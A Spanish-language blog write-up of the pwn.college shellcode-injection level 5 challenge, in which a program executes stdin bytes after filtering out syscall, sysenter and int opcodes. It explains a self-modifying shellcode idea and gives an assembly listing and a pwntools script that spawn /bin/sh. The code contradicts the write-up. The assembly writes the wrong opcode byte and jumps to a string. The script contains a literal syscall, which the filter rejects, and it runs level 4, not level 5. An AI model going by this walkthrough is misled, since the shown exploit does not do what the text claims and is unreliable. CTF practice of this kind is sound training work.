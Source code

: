 ```yaml
---
layout: post
title: Shellcode Injection Dojo - level 5
comments: true
categories: [Pwn, Writeups, Pwn.college]
---
```


En esta serie de posts nos dedicaremos a resolver los ejercicios de *shellcoding* de [pwn.college](https://pwn.college/program-security/shellcode-injection/). En el post anterior estuvimos bypaseando una comprobación de un byte específico, en este se nos restringe el uso de varios *opcodes* importantes.

<br>
![Image]({{ site.baseurl }}/images/posts/pwn-college/yellow.svg){:width="200px"}
<br>

# Reconocimiento

En `/challenge/babyshell-level-5.c` tenemos el código:


```c
void *shellcode;
size_t shellcode_size;

int main(int argc, char **argv, char **envp)
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    printf("###\n");
    printf("### Welcome to %s!\n", argv[0]);
    printf("###\n");
    printf("\n");

    puts("This challenge reads in some bytes, modifies them (depending on the specific challenge configuration), and executes them");
    puts("as code! This is a common exploitation scenario, called `code injection`. Through this series of challenges, you will");
    puts("practice your shellcode writing skills under various constraints! To ensure that you are shellcoding, rather than doing");
    puts("other tricks, this will sanitize all environment variables and arguments and close all file descriptors > 2.\n");
    for (int i = 3; i < 10000; i++) close(i);
    for (char **a = argv; *a != NULL; a++) memset(*a, 0, strlen(*a));
    for (char **a = envp; *a != NULL; a++) memset(*a, 0, strlen(*a));

    shellcode = mmap((void *)0x17ab1000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON, 0, 0);
    assert(shellcode == (void *)0x17ab1000);
    printf("Mapped 0x1000 bytes for shellcode at %p!\n", shellcode);

    puts("Reading 0x1000 bytes from stdin.\n");
    shellcode_size = read(0, shellcode, 0x1000);
    assert(shellcode_size > 0);

    puts("Executing filter...\n");
    puts("This challenge requires that your shellcode does not have any `syscall`, 'sysenter', or `int` instructions. System calls");
    puts("are too dangerous! This filter works by scanning through the shellcode for the following byte sequences: 0f05");
    puts("(`syscall`), 0f34 (`sysenter`), and 80cd (`int`). One way to evade this is to have your shellcode modify itself to");
    puts("insert the `syscall` instructions at runtime.\n");
    for (int i = 0; i < shellcode_size; i++)
    {
        uint16_t *scw = (uint16_t *)((uint8_t *)shellcode + i);
        if (*scw == 0x80cd || *scw == 0x340f || *scw == 0x050f)
        {
            printf("Failed filter at byte %d!\n", i);
            exit(1);
        }
    }

    puts("This challenge is about to execute the following shellcode:\n");
    print_disassembly(shellcode, shellcode_size);
    puts("");

    puts("Executing shellcode!\n");
    ((void(*)())shellcode)();

    printf("### Goodbye!\n");
}
```

Simplemente lee `0x1000 bytes` y los ejecuta, pero en este caso, no podremos utilizar `syscall` (`0x0f05`), `sysenter` (`0x0f34`), ni `int` (`0x80cd`).

# Explotación

Para este caso, como nos sugiere el propio enunciado, podemos utilizar un shellcode *automodificante* (*self-modifying*). La idea es la siguiente:

1. `rdi` contendrá un puntero a `/bin/sh`, `rsi` y `rdx` serán `NULL` (los argumentos de `execve`).
2. Pondremos el puntero de `rdi` en el stack (`rsp`) y a `rsi` apuntando a dicho puntero (primer argumento de la syscall).
3. Insertaremos el  opcode de syscall en dos tiempos.
4. Saltaremos a syscall.

En ensamblador sería algo así:

```java
; Prepare the registers for execve("/bin/sh")
xor rdi, rdi            ; rdi = 0
xor rsi, rsi            ; rsi = 0
xor rdx, rdx            ; rdx = 0
xor rbx, rbx            ; rbx = 0

mov byte ptr rbx, 0x0f
push rbx
mov byte ptr rbx, 0x04
push rbx

mov rbx, 0x0068732f6e69622f  ; '/bin/' in hexadecimal
push rbx                     ; Push '/bin/' onto the stack
xor rbx, rbx                 ; Clear rbx (set to 0)
push rbx                     ; Push NULL byte onto the stack to form '/bin//sh'
mov rbx, 0x68732f2f          ; '/sh' in hexadecimal
push rbx                     ; Push '/sh' onto the stack

mov rdi, rsp                ; rdi = address of "/bin/sh"

; Jump to the location where `syscall` is written
jmp rdi                      ; Jump to the location of `syscall`

```

## Script


```python
#! /bin/python3

from pwn import *

context.arch = 'amd64'

shellcode = asm("""
    push 0x68
    push 0x6e69622f
    mov dword ptr [rsp+4], 0x732f2f2f
    push rsp
    pop rdi
    push 0x2d006873
    mov dword ptr [rsp+4], 0x70
    xor esi, esi
    push rsi
    push rsp
    add dword ptr [rsp], 0xb
    push rsp
    add dword ptr [rsp], 0x10
    push rsp
    pop rsi
    xor edx, edx
    push 0x3b
    pop rax
    syscall
""")

print(shellcode)

print(asm("""
    xor rdi, rdi"""))

p = process("/challenge/babyshell-level-4")

p.send(shellcode)

p.interactive()
```

<br>
![Image]({{ site.baseurl }}/images/posts/pwn-college/shellcoding-level-4-flag.png){:width="700px"}
<br>